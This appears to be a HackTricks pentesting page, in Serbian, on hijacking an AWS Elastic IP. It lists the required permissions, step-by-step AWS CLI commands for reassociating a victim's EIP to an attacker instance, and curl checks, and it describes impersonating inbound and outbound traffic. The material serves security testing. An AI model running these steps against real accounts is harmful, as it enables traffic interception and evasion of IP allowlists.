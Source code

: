 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Sažetak

Zloupotrebite `ec2:AssociateAddress` (i opciono `ec2:DisassociateAddress`) da ponovo povežete Elastic IP (EIP) sa žrtvine instance/ENI na napadačevu instancu/ENI. Ovo preusmerava dolazni saobraćaj namenjen EIP-u ka napadaču i takođe omogućava napadaču da inicira odlazni saobraćaj sa allowlisted javnom IP adresom kako bi zaobišao external partner firewalls.

## Preduslovi
- ID alokacije ciljnog EIP-a u istom nalogu/VPC.
- Napadačka instanca/ENI pod vašom kontrolom.
- Dozvole:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` na EIP allocation-id i na napadačkoj instanci/ENI
- `ec2:DisassociateAddress` (opciono). Napomena: `--allow-reassociation` će automatski disassociate-ovati od prethodnog attachment-a.

## Napad

Promenljive
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) Dodelite ili identifikujte EIP žrtve (laboratorija dodeljuje novi i prikači ga žrtvi)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) Proverite da li se EIP trenutno usmerava na ciljni servis (npr. provere za banner)
```bash
curl -sS http://$EIP | grep -i victim
```
3) Ponovo pridružite EIP napadaču (automatski se odspaja od žrtve)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) Proverite da li EIP sada pokazuje na attacker service
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Dokazi (premeštena asocijacija):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Uticaj
- Inbound impersonation: Sav saobraćaj ka otetom EIP-u se isporučuje na napadačevu instancu/ENI.
- Outbound impersonation: Napadač može inicirati saobraćaj koji izgleda kao da potiče od allowlisted javne IP adrese (korisno za zaobilaženje partner/spoljnih filtera po IP adresi izvora).

{{#include ../../../../banners/hacktricks-training.md}}
